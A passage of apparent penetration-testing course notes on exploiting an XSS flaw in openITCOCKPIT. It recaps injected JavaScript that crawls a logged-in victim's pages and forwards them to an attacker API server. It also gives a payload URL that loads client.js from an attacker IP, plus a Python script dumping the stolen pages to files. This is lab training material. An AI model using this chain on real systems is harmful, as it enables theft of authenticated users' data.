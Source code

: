 To recap, our JavaScript should now load the homepage (if the user is logged in) and scrape all links. The obtained links are then checked for validity and any logout links are removed. Finally, each link is visited in the background of the user's browser and the contents are forwarded to our API server for storage.

1
(Lodash, 2015), https://github.com/lodash/lodash/blob/1.3.1/doc/README.md#_uniqarray--issortedfalse-callbackidentity-thisarg ↩︎

2
(Mozilla, 2020), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise ↩︎

Accessed this url to trigger stat collection:
url was hosted on kali flask server api.py

```
https://openitcockpit/js/vendor/lodash/perf/index.html?build=https://192.168.45.204/client.js
```
##### Dumping the Contents
At this point, we should have a database full of content from an authenticated user. The next step is to dump this data into files that are easier to manage. We'll create a Python script that imports and expands on our db.py script.

We'll start off by importing all the necessary libraries and modules. In this case, we need os to be able to write the file and we need create_connection, get_content, and get_locations from db.py to get the content. We will also need a variable for the database name we will be using and the directory that we want to place the files into. The contents of Listing 38 will be saved to dump.py:

import os
from db import create_connection, get_content, get_locations

database = r"sqlite.db"
contentDir = os.getcwd() + "/content"
Listing 38 - Required imports for dump.py

Next, we can begin creating the main section of the script. First, we will need to make a database connection and query all locations. For each location, we will query for the content and write the content to the appropriate file. The code for this section is shown in Listing 39.

if __name__ == '__main__':
    conn = create_connection(database)
    locations = get_locations(conn)
    for l in locations:
        content = get_content(conn, l)
        write_to_file(l[0], content)
Listing 39 - Main section of dump.py

Next, we'll complete the write_to_file function, which stores the contents of each location into an html file. If a location contains a subdirectory, it must be stored in a folder with the same name as the subdirectory. Conveniently, the structure of a URL also fits a URL path and not much modification needs to occur. The write_to_file function is shown in Listing 40.

def write_to_file(url, content):
    fileName = url.replace('https://','')
    if not fileName.endswith(".html"):
        fileName = fileName + ".html"
    fullname = os.path.join(contentDir, fileName)
    path, basename = os.path.split(fullname)
    if not os.path.exists(path):
        os.makedirs(path)
    with open(fullname, 'w') as f:
        f.write(content)
Listing 40 - write_to_file Function
